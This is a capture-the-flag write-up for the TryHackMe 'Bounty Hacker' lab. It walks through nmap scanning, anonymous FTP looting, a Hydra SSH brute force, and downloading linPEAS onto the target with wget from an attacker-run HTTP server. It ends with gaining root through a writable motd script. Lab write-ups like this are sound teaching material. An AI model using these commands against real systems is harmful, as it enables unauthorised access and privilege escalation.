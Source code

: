 # Bounty Hacker

## Disclaimer

This writeup is for a room located on **TryHackMe**. If you would like to attempt the room, please visit it [here](https://tryhackme.com/room/cowboyhacker).

## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

# Task 1

Deploy the machine by clicking the **Deploy** button.

# Task 2

After the machine has finished booting up, run the following command to reveal the open ports on the network (If using personal Linux machine, remember to use **OpenVPN**):

```
$ nmap -sV -sC -Pn
```

After nmap is finished scanning, our output shows three open ports:

```
21 | ftp
22 | ssh
80 | http
```

# Task 3

Hint: Have you visited ftp?

Thanks to this hint, we know to use the ftp server that we found in the nmap scan. So for this to work, we need to use the following command:

```
$ ftp ${MachineIP}
```

To log into the ftp server, we will be using the **anonymous** username to access the ftp server. This was mentioned in the nmap scan.

After searching around the ftp, we find a file within the **dir** directory. We notice there's a text file called **task.txt**. We can view this file directly in the ftp terminal using the following command:

```
$ get task.txt -
```

We now have our username!

After finding this **task.txt** file, we will notice there is another file called **locks.txt**, and it looks like a bunch of strange passwords. Let's use the get command again to save this on our machine for a future task.

```
$ get locks.txt
```

# Task 4

Hint: What is on port 22?

This task is just looking for the service running on **port 22** (Check nmap scan output).

# Task 5

Hint: Hydra may be able to help.

Since we discovered the username, we can now ssh, but where is the password?

Remember that **locks.txt** file we discovered earlier in the ftp? It's now time to scan the file and find the password for our user!

Since the question mentions hydra, we are going to be using this command to find any available passwords for the user:

```
$ hydra -t 4 -V -l ${User} -P /usr/share/wordlists/locks.txt ssh://${machineIP}
```

Now that we've obtained the password, let's move on to finding the user.txt file for task 6!

# Task 6

To begin accessing the system, we have to ssh in with our credentials. We can use the following command to gain access:

```
$ ssh ${user}@${MachineIP}
```

We're in!

We can also run this within the targets terminal to see if we have root privileges:

```
$ sudo -l
```

After we run a simple command to see the available items in the directory, we see the **user.txt** file, which has our first flag!

Commands:

```
$ ls
$ cat user.txt
```

# Task 7

All that's left is to find the **root.txt** and complete the CTF!

The easiest way to accomplish this is by using **linPEAS** & a **python server**, so we're gonna start by getting a python server up and running with this command (Remember to do this in your root terminal, not as the user!):

```
$ sudo python3 -m http.server 80
```

Now to actually obtain the script. We need to create a directory (I called mine LinEnum), wget the actual linPEAS script from the GitHub repository, and then transfer the file over to the target machine to run the exploit.

Here are the commands I used (This can be done multiple ways):

```
$ mkdir LinEnum
$ cd LinEnum
$ wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh"
```

Now we need to move back over to the users terminal, and we now have it saved on our server, so let's move it over to the target machine (Remember to use this command in the target's terminal).

Note: If using the THM cloud Kali Linux machine, the PrivateIP is available [here](https://tryhackme.com/my-machine).

```
$ wget "http://${PrivateIP}/linpeas.sh"
```

To make our **linPEAS** script executable, we simply do this command (Notice the color change when we run this command):

```
$ chmod +x linpeas.sh
```

**Time to run the script!**

```
$ ./linpeas.sh
```

After a few minutes, the script should finish running on the target machine. After sifting through all the returned results, we see a file called **/etc/update-motd.d/00-header** (Notice how it's highlighted).

After locating this file, it's time to change the directory over to it:

```
$ cd /etc/update-motd.d
$ ls -la
```

This will show us that the **00-header** file we found is actually owned by root.

The easiest way to do this is by using **nano**:

```
$ nano 00-header
```

Now that we have the file open, let's edit the file so that the next time we log in through **ssh**, we will see the **root.txt**!

For this, we just need to add the following command at the very bottom of the open file:

```
cat /root/root.txt
```

**ctrl + x to save the file**

After completing all the above tasks, all we have to do is log out of the ssh shell and log back in. You'll see the **root.txt** flag is located directly in the login terminal screen!

```
$ ssh ${user}@${MachineIP}
```

# Congratulations!

Shoutout to [Sevuhl](https://tryhackme.com/p/Sevuhl) for creating such a cool room!

# Extra

This room is based on an anime called **Cowboy Bebop** (One of my favorites!). You can check it out [here](https://www.imdb.com/title/tt0213338/).

<!--
## YouTube Version

I will be posting a video covering this writeup very soon! -->

